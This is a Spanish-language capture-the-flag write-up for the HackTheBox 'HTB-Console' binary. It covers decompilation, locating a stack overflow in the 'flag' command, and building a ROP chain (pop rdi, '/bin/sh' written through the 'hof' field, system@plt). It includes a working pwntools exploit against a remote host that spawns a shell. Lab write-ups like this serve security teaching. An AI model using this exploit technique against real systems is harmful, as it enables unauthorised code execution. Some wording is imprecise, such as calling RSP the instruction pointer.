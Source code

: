 # HTB-Console


# Part 1: Probando el programa

EL binario aparentemente es una consola bastante limitada:
```console
└─$ ./htb-console
Welcome HTB Console Version 0.1 Beta.
>> whoami
Unrecognized command.
>> help
Unrecognized command.
>>
Unrecognized command.
>> ls
- Boxes
- Challenges
- Endgames
- Fortress
- Battlegrounds
>> cd Endgames
Unrecognized command.
>> exit
Unrecognized command.
>> ^C
```
------------------------------
# Part 2: Leyendo su código

En Ghidra vemos que no hay funcion main sino otras (he renombrado funciones para que se entienda todo mejor):
```c
void main(void){
  char comando [16];
  puts("Welcome HTB Console Version 0.1 Beta.");
  do {
    printf(">> ");
    fgets(comando,0x10,stdin);
    console(comando);
    memset(comando,0,0x10);
  } while( true );}
 
void console(char *comando) {
  int comando_valido;
  char buffer [16];
  comando_valido = strcmp(comando,"id\n");
  if (comando_valido == 0) {
    puts("guest(1337) guest(1337) HTB(31337)");}
  else {
    comando_valido = strcmp(comando,"dir\n");
    if (comando_valido == 0) {
      puts("/home/HTB");}
    else {
      comando_valido = strcmp(comando,"flag\n");
      if (comando_valido == 0) {
        printf("Enter flag: ");
        fgets(buffer,0x30,stdin);
        puts("Whoops, wrong flag!");
      }
      else {
        comando_valido = strcmp(comando,"hof\n");
        if (comando_valido == 0) {
          puts("Register yourself for HTB Hall of Fame!");
          printf("Enter your name: ");
          fgets(&NAME,10,stdin);
          puts("See you on HoF soon! :)");
        }
        else {
          comando_valido = strcmp(comando,"ls\n");
          if (comando_valido == 0) {
            puts("- Boxes");
            puts("- Challenges");
            puts("- Endgames");
            puts("- Fortress");
            puts("- Battlegrounds");}
      	  else {
            comando_valido = strcmp(comando,"date\n");
            if (comando_valido == 0) {
              system("date");}
            else {
              puts("Unrecognized command.");
            };};}
  return;}
```
------------------------------
# Part 3: Encontrando el bug

Probando cada uno de los comandos intentaremos causar un segfault:

1. Pruebo a meter como comando muchas AAAAA # -> Unrecognized command.
2. Comando "hof"
```
>> hof  
Register yourself for HTB Hall of Fame!
Enter your name: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
See you on HoF soon! :)
```
3. Comando flag:
```
>> flag
Enter flag: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Whoops, wrong flag!
zsh: segmentation fault  ./htb-console
```

Por tanto es por flag por donde está la avería.

------------------------------
# Part 4: Desarrollando el exploit
```
gef➤  pattern create 50
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaaga
-------------------------------------------
$rsp   : 0x007fffffffdf58  →  "daaaaaaaeaaaaaaafaaaaaa"
$rbp   : 0x6161616161616163 ("caaaaaaa"?)
gef➤  aga    # ESto lo ha puesto ello solo
Undefined command: "aga".  Try "help".

gef➤  pattern offset $rsp
[+] Searching for '$rsp'
[+] Found at offset 24 (little-endian search) likely
(└─$ echo "daaaaaaaeaaaaaaafaaaaaa" | wc -c   # -> 24)
```
Dentro de "flag" -> 24 bytes hasta dar con el RSP (puntero de instrucción)

Como es un stripped binary, no está llamando a libc sino que la tiene cargada directamente en sí mismo, así que el ret2libc cambia mucho. 
Por ejemplo la string "bin/sh" no está incluida en el binario sino solo "date" para system (se ve en el código arriba)

El ataque sería tal que así: ```pop rdi + "/bin/sh" + system   -> system("/bin/sh")```
Es decir abrimos el registro (pop rdi) para cargarle a la función system el agrumento "bin/sh"

Todo esto irá despues de los 24 bytes basura que desplazarán la pila hasta escribir el rsp o puntero de instrucción que nos ejecute nuestro ataque.

1. Hay que buscar donde tiene el binario la llamada a system (no libc sino el binario en si, cargado en la plt como si fuera un printf)
```console
└─$ objdump -D htb-console | grep "system"
0000000000401040 <system@plt>:
  401381:	e8 ba fc ff ff       	call   401040 <system@plt>
```
2. Buscar el gadget para abrir el registro que le pasara un argumento a la funcion system:
```console
└─$ ropper --search  "pop rdi" -f ./htb-console 
0x0000000000401473: pop rdi; ret;
```
3. String "/bin/sh"
A diferencia de los ret2libc normales que buscabamos "bin/sh" dentro de libc importado ahora como no importa nada no se puede y no existe ese "/bin/sh"

Digamos que hay que escribir ese "bin/sh" en otro lugar ¿Pero dónde?
En el comando "hof" (hall of fame) nos piden un nombre y lo meten en una variable.
En ghidra, si clicamos a la función &NAME (si no se cambio es "DAT_004040B0") y nos da su dirección -> 4040b0. Ahí es donde almacenara "/bin/sh"
```
>> `hof
Enter your name: bin/sh
See you on HoF soon! :)
C^

gef➤  x/s 0x4040b0
0x4040b0:	"/bin/sh\n"
```
Por tanto el exploit (usando pwntools esta vez ya que tenemos que lidiar con procesos):

```python
from pwn import *
proc = remote("138.68.143.219", "32537")

proc.sendline('hof')
name = b'/bin/sh'
proc.sendline(name)

proc.sendline('flag')
pop_rdi = p64(0x00401473);  bin_sh = p64(0x004040b0); system = p64(0x00401040);
payload = b"A"*24 + pop_rdi + bin_sh + system
proc.sendline(payload)

proc.interactive()
```

```console
└─$ python3 exploit.py 2>/dev/null
[+] Opening connection to 138.68.143.219 on port 32537: Done
[*] Switching to interactive mode
 Whoops, wrong flag!
$ ls
console
core
flag.txt
$ cat flag.txt
HTB{fl@g_a$_a_s3rv1c3?}
```
